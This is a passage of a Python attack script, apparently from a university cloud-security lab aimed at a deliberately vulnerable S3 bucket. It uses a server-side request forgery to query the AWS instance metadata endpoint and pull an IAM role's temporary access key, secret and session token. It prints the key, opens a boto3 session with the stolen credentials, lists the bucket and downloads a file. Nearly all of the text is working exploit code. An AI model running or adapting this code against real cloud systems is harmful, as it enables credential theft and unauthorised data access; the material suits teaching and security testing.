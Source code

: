 ```python
    # Step 2: Retrieve temporary credentials using the role name
    credentials_url = base_url + f'http://169.254.169.254/latest/meta-data/iam/security-credentials/{role_name}'
    try:
        response = requests.get(credentials_url)
        if response.status_code != 200:
            print(f'Error: Failed to retrieve credentials. Status code: {response.status_code}')
            return
        credentials = json.loads(response.text)
        access_key = credentials['AccessKeyId']
        secret_key = credentials['SecretAccessKey']
        session_token = credentials['Token']
        print('Step 2: Temporary AWS Credentials Retrieved')
        print(f'AccessKeyId: {access_key}')
        print(f'SecretAccessKey: {secret_key[:6]}... (truncated)')
        print(f'Token: {session_token[:6]}... (truncated)')
    except (requests.RequestException, json.JSONDecodeError, KeyError) as e:
        print(f'Error: Unable to retrieve or parse credentials: {e}')
        return

    # Step 3: Create a boto3 session with the temporary credentials
    session = boto3.Session(
        aws_access_key_id=access_key,
        aws_secret_access_key=secret_key,
        aws_session_token=session_token
    )
    s3 = session.client('s3')
    bucket_name = 'seas8405-week6-lab1-vulnerable-s3'

    # Step 4: List contents of the S3 bucket
    try:
        response = s3.list_objects_v2(Bucket=bucket_name)
        print('Step 3: S3 Bucket Contents:')
        for obj in response.get('Contents', []):
            print(f'- {obj["Key"]}')
    except Exception as e:
        print(f'Error: Failed to list bucket contents: {e}')
        return

    # Step 5: Download and display the contents of sample.txt
    try:
        obj = s3.get_object(Bucket=bucket_name, Key='sample.txt')
        content = obj['Body'].read().decode('utf-8')
        print('Step 4: Content of sample.txt:')
        print(content)
    except Exception as e:
        print(f'Error: Failed to download sample.txt: {e}')


if __name__ == '__main__':
    main()
```

